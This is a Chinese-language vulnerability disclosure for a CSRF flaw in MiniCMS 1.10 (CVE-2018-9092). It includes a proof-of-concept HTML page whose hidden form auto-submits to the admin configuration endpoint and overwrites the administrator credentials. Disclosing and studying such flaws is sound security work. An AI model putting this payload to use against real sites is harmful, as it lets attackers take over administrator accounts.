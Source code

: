# MiniCMS-1.10存在CSRF漏洞可增加管理员账户

### 漏洞简介 

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|MiniCMS-1.10存在CSRF漏洞可增加管理员账户|2018-03-30|zixian（me@zixian.org、zixian@5ecurity.cn）|[https://github.com/bg5sbk/MiniCMS](https://github.com/bg5sbk/MiniCMS) | [https://github.com/bg5sbk/MiniCMS](https://github.com/bg5sbk/MiniCMS) |1.10| [CVE-2018-9092](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9092)| 

#### 漏洞概述 

> MiniCMS 1.10存在CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可增加管理员账户。MiniCMS是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/bg5sbk/MiniCMS/issues/14)告知作者。  

### POC实现代码如下： 

> CSRF测试页面代码如下：
``` html
<html>
 <head><meta http-equiv="Content-Type" content="text/html; charset=GB2312">
 <title>test</title>
 <body>
 <form action="http://127.0.0.1/minicms/mc-admin/conf.php" method="post">
 <input type="hidden" name="site_name" value="hack123" />  
 <input type="hidden" name="site_desc" value="hacktest" />  
 <input type="hidden" name="site_link" value="http://127.0.0.1/minicms" />  
 <input type="hidden" name="user_nick" value="hack" />  
 <input type="hidden" name="user_name" value="admin" />  
 <input type="hidden" name="user_pass" value="hackpass" />  
 <input type="hidden" name="comment_code" value="" />  
 <input type="hidden" name="save" value=" " /> 
 </form>
 <script>
  document.forms[0].submit();
 </script>
 </body>
 </head>
 </html>
```
